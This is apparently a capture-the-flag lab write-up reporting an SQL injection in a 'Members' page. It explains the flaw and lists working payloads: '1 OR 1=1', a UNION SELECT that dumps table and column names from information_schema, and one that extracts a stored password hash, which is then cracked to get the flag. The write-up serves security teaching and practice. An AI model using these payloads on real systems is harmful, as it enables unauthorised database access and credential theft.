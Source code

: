 # Bug Report - SQL Injection in Members

##  Bug description

An SQL Injection is a security breach that occurs when a web page has an input field of for example a user id or a username and the hacker inputs a SQL petition that runs without protection in the database, giving access to properties that should be private.

## How did I find it?

While looking for vulnerabilities, I tried giving thr input "1 OR 1=1" and when I got the result of all the info from all the users I knew there was a possible SQL injection there.

## Steps to replicate

1. First we are going to see all the columns of all the tables of the database:
	- 1 UNION SELECT 1,(SELECT GROUP_CONCAT(table_name,column_name) FROM information_schema.columns WHERE table_schema=database())

2. Get the encrypted password from the comment column and follow the given instructions:
	- 1 UNION SELECT 1,comment FROM list_images

3. Decrypt the password using the MD5 algorithm, lowering all chars and applying SH256 on it to get the flag with this command:
	- echo -n albatroz | sha256sum

https://owasp.org/www-community/attacks/SQL_Injection